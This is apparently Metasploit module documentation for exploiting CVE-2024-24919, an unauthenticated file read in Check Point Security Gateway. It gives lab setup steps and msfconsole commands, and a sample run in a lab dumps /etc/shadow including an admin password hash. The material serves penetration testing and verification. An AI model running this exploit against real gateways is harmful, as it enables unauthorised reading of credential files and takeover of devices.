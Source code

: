 ## Vulnerable Application
This module leverages an unauthenticated arbitrary root file read vulnerability for
Check Point Security Gateway appliances. When the IPSec VPN or Mobile Access blades
are enabled on affected devices, traversal payloads can be used to read any files on
the local file system. Password hashes read from disk may be cracked, potentially
resulting in administrator-level access to the target device. This vulnerability is
tracked as CVE-2024-24919.

## Options

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: /etc/shadow). This should be a full Linux file path. Files containing binary data may not be read accurately.

## Testing
To set up a test environment:
1. Download an affected version of Check Point Security Gateway (Such as Check_Point_R81.20_T631.iso, SHA1: 42e25f45ab6b1694a97f76ca363d58040802e6d6).
2. Install the ISO within a virtual machine.
3. Browse to the administrator web dashboard on port 443 and complete the first-time setup tasks.
4. On a Windows system, download and install a copy of Check Point SmartConsole, then use it to authenticate to Security Gateway.
5. In SmartConsole, enable and configure the vulnerable Mobile Access or IPSec VPN blades.
6. Publish and push the configuration changes to the device.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display the target file on the console instead of storing it as loot.
7. `run`

## Scenarios
### Check Point Security Gateway Linux
```
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > show options 

Module options (auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false            yes       Store the target file as loot
   TARGETFILE  /etc/shadow      yes       The target file to read. This should be a full Linux file path. Files containing binary data may not be read accurately
   TARGETURI   /                yes       The URI path to Check Point Security Gateway
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set RHOSTS 192.168.181.128
RHOSTS => 192.168.181.128
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > check
[+] 192.168.181.128:443 - The target is vulnerable. Arbitrary file read successful!
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > run
[*] Running module against 192.168.181.128

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file read successful!
[+] File read succeeded! 
admin:$6$hHJHiZdC2kHPD5HQ$/0dtMC53GSaZpLA/MeChOvJNNE4i9qoKL57Dsl853wF/RRNzJJ6CO5/qBmzCM7KdEUmXanF3J8T50ppLh/Sf2/:14559:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
cp_routeevt:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cp_extensions:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::

[*] Auxiliary module execution completed
```
